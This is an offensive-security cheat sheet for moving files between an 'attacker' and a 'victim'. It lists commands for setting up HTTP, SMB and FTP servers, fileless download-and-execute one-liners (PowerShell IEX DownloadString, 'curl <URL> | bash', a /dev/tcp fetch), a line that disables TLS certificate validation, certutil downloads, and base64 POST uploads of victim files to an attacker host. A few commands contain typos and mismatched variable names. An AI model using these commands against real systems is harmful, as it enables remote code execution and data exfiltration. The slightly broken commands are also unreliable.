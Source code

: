 #file-upload #file-download #scp #smb #ftp #GTFOBins
## File Share Server
Python2 web server
```bash
python -m SimpleHTTPServer <PORT>
```
Python3 web server
```bash
python -m http.server <PORT>
```
Python Upload server (HTTP)
```bash
pip3 install uploadserver
python3 -m uploadserver
```
Python Upload server (HTTPs)
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
python3 -m uploadserver 443 --server-certificate server.pem
```
Python SMB server
```bash
sudo impacket-smbserver -smb2support <SHARENAME> <SHAREPATH> -user <USER> -password <PASS>
```
Python3 FTP server
```bash
sudo python3 -m pyftpdlib --port <PORT> --write
```
## File Download
### Windows
PowerShell downloads SSL/TLS certificate not trusted.
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
PowerShell Base64 Encode & Decode 
- [ ] cmd.exe string length restriction (8,191 characters)
- [ ] PowerShell requirement or webshell error due to sending large string.
- Attacker
```bash
md5sum <FILE>
cat <FILE> | base64 -w 0;ech
```
- Victim
```powershell
[IO.File]::WriteAllBytes("<DESTINATION>", [Convert]::FromBase64String("<BASE-64>"))
Get-FileHash <DESTINATION> -Algorithm md5)
```
PowerShell DownloadFile
```powershell
(New-Object Net.WebClient).DownloadFile('<URL>', '<OUTPUT>')
```
PowerShell DownloadFileAsync
```powershell
(New-Object Net.WebClient).DownloadFileAsync('<URL>', '<OUTPUT>')
```
Fileless DownloadString
```powershell
IEX (New-Object Net.WebClient).DownloadString('<POWERSHELL SCRIPT>')
(New-Object Net.WebClient).DownloadString('<POWERSHELL SCRIPT>') | IEX
```
PowerShell Invoke-WebRequest
```powershell
Invoke-WebRequest '<URL>' -UseBasicParsing | IEX
```
certutil.exe file download
```powershell
certutil -urlcache -f '<URL>' '<OUTPUT>'
```
### Linux
Fileless download with cURL
```bash
curl '<URL>' | bash
```
Fileless download with wget
```bash
wget -q0- '<URL>' | bash
```
Bash download
```bash
exec 3<>/dev/tcp/<IP>/<PORT>
echo -e "GET /LinEnum.sh HTTP/1.1\r\n">&3
cat <&3
```
## File Upload
### Windows
PowerShell Base64 upload
```powershell
[Convert]::ToBase64String((Get-Content -path "<FILE>" -Encoding byte))
```
PowerShell to Python Upload Server
```powershell
Invoke-FileUpload -Uri http://<ATTACKER?:<ATTACKER PORT>/upload -File <file>
```
PowerShell Base64 Web Upload
- Attacker start ncat listener
```powershell
$b63 = [System.convert]::ToBase64String((Get-Content -path "<FILE>" -Encoding byte))
Invoke-WebRequest -Uri 'http://<ATTACKER>:<ATTACKER PORT>/' -Method POST -Body $b64
```
## SSH File Transfer
Downloading files (victim -> attacker)
```bash
scp <USER>@<IP>:/root/myroot.txt .
```
Uploading files (attacker -> victim)
```bash
scp <FILE> <USER>@<IP>:/root/victimroot.txt 
```
## SMB File Transfer
Downloading from SMB share 
```powershell
copy \\<ATTACKER>\<FILENAME> /user:<USER> <PASS>
```
Uploading to SMB share
```powershell
copy <FILE> \\<IP>\<SHARE>\<FILE>
```
Mount SMB server
```powershell
net use n: \\<IP>\<FILE> /user:<USER> <PASS>
```
### FTP File Transfer
PowerShell FTP Download
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', '<OUTPUT>')
```
PowerShell FTP Upload
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/fto-hosts', '<INPUT>')
```